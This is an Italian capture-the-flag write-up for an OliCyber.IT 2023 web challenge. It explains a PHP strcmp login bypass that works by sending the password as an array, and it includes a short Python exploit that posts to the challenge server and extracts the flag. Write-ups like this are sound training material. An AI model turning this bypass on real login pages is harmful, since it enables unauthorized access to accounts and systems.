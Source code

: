 # OliCyber.IT 2023 - Simulazione training camp 1

## [web] L'ennesimo login bypass (28 risoluzioni)

Ci viene presentata una pagina web con un input per una password.

Guardando nella risposta del server e tra i cookie possiamo notare l'apparizione di `PHPSESSID`, quindi siamo davanti ad un applicativo PHP.

### Soluzione

Essendo un applicativo PHP possiamo provare le comuni tecniche di bypass.
Quella che funziona in questa situazione prevede di modificare il tipo della variabile password da stringa ad array, ciò si può fare sia modificando la richiesta tramite burp, sia modificando la proprietà `name` in `password[]` all'interno dell' HTML tramite gli strumenti da sviluppatore.

Questo bypass funziona in quanto la funzione `strcmp` ritorna 0 anche nel caso in cui ci sia un errore, come appunto quello di tipo in cui si passa un array al posto di una stringa.

### Exploit

```python
#!/bin/python3

import requests
import re

flag_regex = "flag{.*}"

url = "http://ennesimo_login_bypass.challs.olicyber.it/index.php"

r = requests.post(url, data={
    "password[]" : "randompassword"
})

flags = re.findall(flag_regex, r.text)

print(flags[0])
```
